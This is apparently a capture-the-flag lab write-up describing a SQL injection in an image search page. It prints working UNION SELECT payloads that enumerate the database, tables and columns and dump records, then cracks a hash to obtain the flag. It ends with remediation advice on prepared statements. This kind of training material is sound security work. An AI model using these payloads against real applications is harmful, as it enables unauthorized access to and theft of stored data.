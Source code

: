 # 06 - SQL Injection Images

## Reproduce

We found an SQL Injection in: `http://{IP}/?page=searchimg`

- Get the database name: `1 AND 0=1 UNION SELECT 1, database()` 
===> `Member_images`

- Get the table name: `1 AND 0=1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115)` 
===> `list_images`

- Get columns name: `1 AND 0=1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = char(108,105,115,116,95,105,109,97,103,101,115)`
===> 
`
{
    'id',
    'url',
    'title',
    'comment'
}
`

- Let's list the `title + comment` of all the images :
`1 AND 0=1 UNION SELECT title,comment FROM list_images`

In the comment of 'Hack me ?' we found this:
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46` 

And that what we did :)
- Decode 1928e8083cf461a51303633093573c46 with MD5 ==> 'albatroz'
- Encode 'albatroz' using Sha256 ==> Tadaaaaaa flag


## Explaination of the vurnability

SQL injection: is a code injection technique that might destroy your database.


## Fix 

- Use of Prepared Statements (with Parameterized Queries) for example in :
    - JAVA EE use: PreparedStatement() with bind variables.
    - PHP use: PDO (PHP Data Object) with strongly typed parameterized queries.
- Don't construct queries with user input whitout verifications.
